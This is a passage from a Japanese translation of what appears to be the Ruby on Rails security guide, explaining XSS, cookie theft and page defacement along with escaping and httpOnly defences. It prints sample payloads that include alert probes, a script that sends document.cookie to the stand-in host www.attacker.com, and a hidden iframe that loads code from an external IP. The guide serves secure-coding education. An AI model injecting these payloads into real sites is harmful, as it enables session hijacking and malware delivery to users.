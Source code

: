#### HTML/JavaScriptインジェクション

XSS攻撃に利用されやすい言語は、言うまでもなくクライアント側で最も普及している言語であるJavaScriptであり、しばしばHTMLと組み合わせて攻撃に使用されます。 _攻撃を避けるにはユーザー入力をエスケープする_ 必要があります。

XSSをチェックする最も簡単なテストをご紹介します。

```html
<script>alert('Hello');</script>
```

このJavaScriptコードを実行すると、警告ボックスが1つ表示されるだけです。次の例では、見かけの動作はまったく同じですが、通常ではありえない場所にコードが置かれています。

```html
<img src=javascript:alert('Hello')>
<table background="javascript:alert('Hello')">
```

##### Cookie窃盗

先ほどの例では何の害も生じないので、今度は攻撃者がユーザーのcookieを盗み出す手法をご紹介します (攻撃者はこれを使用してユーザーのセッションをハイジャックします)。JavaScriptでは、document.cookieプロパティを使用してドキュメントのcookieを読み書きできます。JavaScriptでは同一生成元ポリシーが強制的に適用されます。これは、あるドメインから送り込まれたスクリプトからは、別のドメインのcookieにアクセスできないようにするポリシーです。document.cookieプロパティには、生成元webサーバーのcookieが保存されています。しかし、HTMLドキュメントに直接コードを埋め込むと(XSSによってこれが生じることがあります)、このプロパティを読み書きできてしまいます。このコードを自分のWebアプリケーションの適当な場所に手動で注入すると、そのページに含まれている自身のcookieが表示されるのがわかります。

```
<script>document.write(document.cookie);</script>
```

もちろん、攻撃者にしてみれば標的ユーザーが自分で自分のcookieを表示したところで何の意味もありません。次の例では、http://www.attacker.com/というURLから画像とcookieを読み込みます。言うまでもありませんが、このURLは実際には存在しませんので、ブラウザには何も表示されません(訳注: 現在は売り物件のWebページがあるようです)。ただし攻撃者はWebサーバーのアクセスログファイルを調べて標的ユーザーのcookieを参照することができます。

```html
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```

www.attacker.comサイト上のログファイルには以下のように記録されます。

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```

この攻撃をある程度軽減するためには[httpOnly](http://dev.rubyonrails.org/ticket/8895)フラグをcookieに追加します。これにより、JavaScriptを使用してdocument.cookieを読み出せなくなります。HTTP only cookieはIE v6から使用できます。SP1, Firefox v2.0.0.5 and Opera 9.5. Safariはまだこのフラグを検討中であり、このオプションは無視されます。ただしWebTVやMac版IE 5.5などの古いブラウザでは、ページ上での読み込みに失敗します。なお、[Ajaxを使用するとcookieが表示可能になる](http://ha.ckers.org/blog/20070719/firefox-implements-httponly-and-is-vulnerable-to-xmlhttprequest/)ことにもご注意ください。

##### Webページの汚損

Webページを書き換える (汚損) ことで、偽の情報を表示したり、標的ユーザーを攻撃者の偽サイトに誘い込んでcookieやログイン情報などの重要データを盗み出すなどのさまざまな攻撃が可能になります。最も多い攻撃は、iframeを使用して外部のコードをWebページに含める方法です。

```html
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
```

このコードによって、外部にある任意のHTMLやJavaScriptが読み込まれ、Webサイトの一部として埋め込まれます。上のiframeは、[Mpack攻撃フレームワーク](http://isc.sans.org/diary.html?storyid=3015)を使用してイタリアにあるWebサイトへの攻撃で実際に用いられたものです。MpackはWebブラウザのセキュリティホールを介して邪悪なソフトウェアをインストールしようとします。そして攻撃の成功率は50%を誇っています。
